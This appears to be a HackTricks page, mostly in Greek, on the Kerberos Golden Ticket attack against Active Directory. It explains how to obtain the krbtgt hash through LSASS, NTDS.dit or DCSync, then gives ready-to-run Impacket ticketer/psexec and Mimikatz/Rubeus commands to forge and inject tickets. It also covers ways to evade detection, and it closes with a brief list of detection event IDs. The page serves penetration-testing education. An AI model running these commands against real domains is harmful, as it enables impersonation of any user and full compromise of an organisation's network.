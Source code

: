 # Golden Ticket

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Golden ticket

Μια επίθεση **Golden Ticket** συνίσταται στη **δημιουργία ενός νόμιμου Ticket Granting Ticket (TGT) προσποιούμενη οποιονδήποτε χρήστη** μέσω της χρήσης του **NTLM hash του λογαριασμού krbtgt του Active Directory (AD)**. Αυτή η τεχνική είναι ιδιαίτερα πλεονεκτική διότι **επιτρέπει πρόσβαση σε οποιαδήποτε υπηρεσία ή μηχάνημα** εντός του τομέα ως ο προσποιούμενος χρήστης. Είναι κρίσιμο να θυμόμαστε ότι τα **διαπιστευτήρια του λογαριασμού krbtgt δεν ενημερώνονται ποτέ αυτόματα**.

Για να **αποκτήσετε το NTLM hash** του λογαριασμού krbtgt, μπορούν να χρησιμοποιηθούν διάφορες μέθοδοι. Μπορεί να εξαχθεί από τη **Διαδικασία Υποστήριξης Τοπικής Ασφάλειας (LSASS)** ή το **αρχείο NT Directory Services (NTDS.dit)** που βρίσκεται σε οποιονδήποτε Domain Controller (DC) εντός του τομέα. Επιπλέον, **η εκτέλεση μιας επίθεσης DCsync** είναι μια άλλη στρατηγική για να αποκτήσετε αυτό το NTLM hash, η οποία μπορεί να πραγματοποιηθεί χρησιμοποιώντας εργαλεία όπως το **lsadump::dcsync module** στο Mimikatz ή το **secretsdump.py script** από το Impacket. Είναι σημαντικό να τονιστεί ότι για να εκτελέσετε αυτές τις λειτουργίες, **συνήθως απαιτούνται δικαιώματα διαχειριστή τομέα ή παρόμοιο επίπεδο πρόσβασης**.

Αν και το NTLM hash χρησιμεύει ως μια βιώσιμη μέθοδος για αυτόν τον σκοπό, είναι **σθεναρά συνιστώμενο** να **κατασκευάζετε εισιτήρια χρησιμοποιώντας τα κλειδιά Kerberos Advanced Encryption Standard (AES) (AES128 και AES256)** για λόγους επιχειρησιακής ασφάλειας.

{% code title="From Linux" %}
```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="Από Windows" %}
```bash
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
{% endcode %}

**Μόλις** έχετε **εισαγάγει το χρυσό εισιτήριο**, μπορείτε να έχετε πρόσβαση στα κοινά αρχεία **(C$)**, και να εκτελέσετε υπηρεσίες και WMI, οπότε θα μπορούσατε να χρησιμοποιήσετε **psexec** ή **wmiexec** για να αποκτήσετε ένα shell (φαίνεται ότι δεν μπορείτε να αποκτήσετε ένα shell μέσω winrm).

### Παράκαμψη κοινών ανιχνεύσεων

Οι πιο συχνές μέθοδοι ανίχνευσης ενός χρυσού εισιτηρίου είναι μέσω της **επιθεώρησης της κίνησης Kerberos** στο δίκτυο. Από προεπιλογή, το Mimikatz **υπογράφει το TGT για 10 χρόνια**, το οποίο θα ξεχωρίσει ως ανώμαλο σε επόμενα αιτήματα TGS που γίνονται με αυτό.

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

Χρησιμοποιήστε τις παραμέτρους `/startoffset`, `/endin` και `/renewmax` για να ελέγξετε την αρχική απόκλιση, τη διάρκεια και τις μέγιστες ανανεώσεις (όλα σε λεπτά).
```
Get-DomainPolicy | select -expand KerberosPolicy
```
Δυστυχώς, η διάρκεια ζωής του TGT δεν καταγράφεται στα 4769, οπότε δεν θα βρείτε αυτές τις πληροφορίες στα Windows event logs. Ωστόσο, αυτό που μπορείτε να συσχετίσετε είναι **η εμφάνιση 4769 χωρίς προηγούμενο 4768**. Είναι **αδύνατο να ζητήσετε ένα TGS χωρίς ένα TGT**, και αν δεν υπάρχει καταγραφή ότι εκδόθηκε ένα TGT, μπορούμε να συμπεράνουμε ότι κατασκευάστηκε offline.

Για να **παρακάμψετε αυτή την ανίχνευση**, ελέγξτε τα diamond tickets:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

### Mitigation

* 4624: Logon Λογαριασμού
* 4672: Logon Διαχειριστή
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

Άλλες μικρές τεχνικές που μπορούν να κάνουν οι αμυντικοί είναι **να ειδοποιούν για 4769 για ευαίσθητους χρήστες** όπως ο προεπιλεγμένος λογαριασμός διαχειριστή τομέα.

## References
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
